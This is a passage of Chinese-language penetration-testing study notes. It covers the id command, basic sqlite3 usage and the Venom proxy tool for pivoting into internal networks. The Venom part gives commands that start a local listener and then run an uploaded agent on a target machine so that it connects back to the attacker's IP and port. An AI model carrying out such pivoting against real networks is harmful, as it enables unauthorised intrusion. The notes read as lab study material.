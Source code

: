     - `-o`：显示操作系统的制造商

### id 

1. what?

    显示当前用户的身份信息。它显示有关用户和组的详细信息，包括用户 ID（UID）、组 ID（GID）、附属组、用户和组的名称等。

2. 具体实例

    - `uid`：当前用户的用户 ID。
    - `gid`：当前用户的组 ID。
    - `groups`：当前用户所属的附属组列表。
    - `username`：当前用户的用户名。

    ![image-20230518102721947](http://image.cchl.fun/kali_image/image-20230518102721947.png)



# 其他

### sqlite3

1. what？

    ​	SQLite 是一个软件库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。SQLite 是在世界上最广泛部署的 	SQL 数据库引擎。SQLite 源代码不受版权限制。

2. 具体使用

    1. `.open db.sql` ：如果数据库存在则直接会打开，不存在就创建它。
    2. `.database`：查看已经存在的数据库。
    3. `.dump`：导出完整的数据库数据，可以追加`> `来将其导入到文本文件中。

### venom

1. what?

    用于内网渗透的代理脚本

2. 具体实例：相情见1.md的渗透过程。

    在GitHub上下载release的，admin开头的是在本机运行（），agent是在内网选择的代理的主机上运行的，具体使用方法可以命令的提示来执行，但是注意（一定要选择一个正确的，符合主机架构的版本就可以了，不是都有执行。只选一个就可以了）

    ![image-20230516000841296](http://image.cchl.fun/kali_image/image-20230516000841296.png)

    1. ./admin_linux_x64 -lport 9999

        本地选择适合本机系统的的admin开头的脚本，同时指定监听端口。==在本地执行==

    2. ./agent_linux_x64 -rhost 192.168.195.170 -rprot 9999；

        这是==在靶机上执行==的，需要自己上载。来指定反连的ip和端口
    
        
    
        （这里我将agent_linux_x64改名为agent,是为传输方便。）
    
        ![image-20230515190939081](http://image.cchl.fun/kali_image/image-20230515190939081.png)
    